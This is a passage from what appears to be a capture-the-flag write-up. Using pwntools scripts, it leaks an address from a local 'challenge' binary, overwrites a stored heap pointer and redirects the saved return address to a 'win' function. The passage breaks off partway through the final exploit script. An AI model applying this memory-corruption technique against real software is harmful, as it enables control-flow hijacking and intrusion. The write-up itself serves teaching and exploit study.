 ```python
from pwn import *

context.terminal = ["tmux","splitw","-h"]
e = ELF("./challenge")
p = process("./challenge")

p.sendlineafter("> ","1")
p.sendline("A"*16)
p.sendlineafter("> ","2")
leaked_address = p.recvuntil("\n").strip()
saved_rip = int(leaked_address,16) + 0x58
gdb.attach(p,"x/2gx {}".format(hex(leaked_address)))
p.interactive()
```

Running the above script while in **tmux** we observe the address returned by malloc. Examinig that address we see `A` repeated 16 times , which was our input.

<p align="center">

    <img src="/assets/images/freespirit/8.png">
</p>

What happens if after **1** we select **3** and as we mentioned earlier overwrite the heap address stored in the stack ? 

Let's add `p.sendlineafter("> ","3")`  right after `sendline("A"*16)` and see what happens.

<p align="center">

    <img src="/assets/images/freespirit/9.png">
</p>

We actually overwrote the address the program will try to write to when **1** is selected. But overwriting it with `0x41414141...` isn't as fun as overwriting with where the stored $rip is...

We already know where the return pointer is stored ( 0x58 after our leak ) so we now only have to find the address of `win` function. This is really easy with pwntools.

The exploit will know look something like this.
```python
from pwn import *

context.terminal = ["tmux","splitw","-h"]
e = ELF("./challenge")
win = e.symbols["win"] # win address
p = process("./challenge")

# Find the leaked address
p.sendlineafter("> ","2")
leaked_address = p.recvuntil("\n").strip()
leaked_address = int(leaked_address,16)
saved_rip = leaked_address + 0x58 # RIP

# Write 8 bytes of junk and the address of saved_rip in the heap
p.sendlineafter("> ","1")
p.sendline("A" * 8 + p64(saved_rip))
# Trigger the stack overwrite
p.sendlineafter("> ","3")
# Overwrite the saved $rip with win's address
```